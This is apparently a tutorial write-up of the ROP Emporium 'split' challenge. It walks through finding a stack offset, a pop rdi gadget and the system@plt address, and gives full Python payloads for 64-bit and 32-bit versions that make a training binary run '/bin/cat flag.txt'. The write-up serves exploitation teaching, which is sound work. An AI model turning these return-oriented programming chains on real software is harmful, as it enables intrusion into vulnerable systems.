








split | ROPEmporium [2]
split
This is our next challenge, read the description of challenge :
Still here
I’ll let you in on a secret: that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It’s just a case of finding them and chaining them together to make the magic happen.
In this challenge, we should run system() function with argument /bin/cat flag.txt , let’s build the ROP chain that first comes to mind:
- Find the string
/bin/cat flag.txt, and put the address of this string into RDI (arg0 in x64) - Populate/Run the function
system()from PLT section
There can be some pitfalls like not aligned stack before running system() , that’s why we use ret gadget to align the stack
Checking the security of binary by checksec ./binary

This indicates that there are no stack canaries or Position Independent Executables (PIE), and we do not need to worry about Address Space Layout Randomization (ASLR) since it only applies to the libc.
Find the out the offset of Return Address


The offset of Return Address is 40
Find the string /bin/cat flag.txt with the command strings -a -t x ./split | grep /bin/cat
Explanation
strings: This command searches for sequences of printable characters in a binary file. It is commonly used to find human-readable text in executable files or data files.a: This option tellsstringsto scan the entire file, not just the default sections (like the text section). This is useful for searching through data segments or other non-standard sections of a binary file.t x: This option specifies the format of the output for the offset of each string found. Thexindicates that the offsets should be displayed in hexadecimal format. Other formats includedfor decimal andofor octal.

POP RDI; RET
We have the address of the gadget which reads the flag.txt, move on to the next stage, we need the the pop rdi, ret; gadget for beginners I will describe in in three intructions:
mov rdi, [rsp]; // Takes the current value from the address of RSP and puts the value into RDI
add rsp, 8; // This effectively moves the stack pointer up in memory, which means that you are removing (or "popping") 8 bytes of data from the stack.
ret; // and return back
In case of searching for gadgets, I primarily use two tools: Ropper and RP++.
ropper --file ./split --search pop

rp++ -r2 --unique -f ./split | grep "pop"
-r2useful gadget numbers,2is the gadget maximum size in instructions, more than3is not stable for ROP--uniquedo not print the same gadget multiple times (optional)-ffile to search

Function system() 64-bit
The system() function is indeed part of the C standard library (libc), and when a program calls system(), it typically goes through the PLT if the binary is dynamically linked.
The PLT serves as an intermediary to resolve the actual address of system() from the GOT. Initially, the PLT entry for system() points to a resolver function, which will resolve the actual address of system() in libc and update the GOT entry.
Once resolved, subsequent calls to system() will directly use the resolved address from the GOT
For now enough to know only the PLT address of system()

ROP chain: pop rdi; ret + address of string /bin/cat flag.txt + ret; (gadget is optional depends on alignment of stack before calling system()) + system@plt
Payload 64-bit
Payload (By the way, some people may ask why this guy is using a linear struct.pack instead of pwntools, the answer is simple, showing you from where we are taking address all these addresses, and writing these address manually is the best practice for beginners, anyway you can rewrite this payload with pwntools):
from struct import pack
system_plt = 0x0000000000400560
pop_rdi = 0x4007c3
ret = 0x40053e
bin_cat_flag = 0x00601060
payload = b"A" * 40 # Offset to overwrite EIP
payload += pack('<Q', pop_rdi) # pop ebx; ret;
payload += pack('<Q', bin_cat_flag) # Address of "/bin/cat flag.txt"
payload += pack('<Q', ret)
payload += pack('<Q', system_plt) # Call system@plt
# Output the payload
with open("payload", "wb") as f:
f.write(payload)
print("Payload written to 'payload'")
Result 64-bit
We get the flag!

split x32
Everything is the same except for alignment and addresses (32-bit)
Payload 32-bit
from struct import pack
pop_ebx_ret = 0x8048395
read_flag = 0x0804a030
system_plt = 0x080483e0
payload = b'A' * 44
payload += pack('<I', system_plt)
payload += pack('<I', 0x0)
payload += pack('<I', read_flag)
with open("payload", "wb") as f:
f.write(payload)
print("Payload written to 'payload'")
In this ROP chain, the 0x0 after system_plt serves as a placeholder for the return address.
Explanation 32-bit
- In 32-bit (x86) architecture, when calling a function like
systemin a ROP chain, the function expects the next item on the stack to be a return address. This address tells the program where to continue execution aftersystemcompletes. Since you don’t need to return to any specific location aftersystem(and likely just wantsystemto executeread_flag),0x0is used as a dummy return address. This is common in ROP chains to satisfy the function’s calling convention.
ROP Chain Breakdown 32-bit
payload += pack('<I', system_plt): Adds the address ofsystem(in the PLT) to execute thesystemfunction.payload += pack('<I', 0x0): Adds0x0as a placeholder return address, which is required in the stack layout but will not be used here.payload += pack('<I', read_flag): Adds the address ofread_flag, the string you want to pass as an argument tosystem.
The 0x0 value is necessary to align the stack correctly for the system function call, allowing the ROP chain to function as expected. In x86, functions generally expect a return address, even if it’s unused, and including it prevents crashes or unexpected behavior.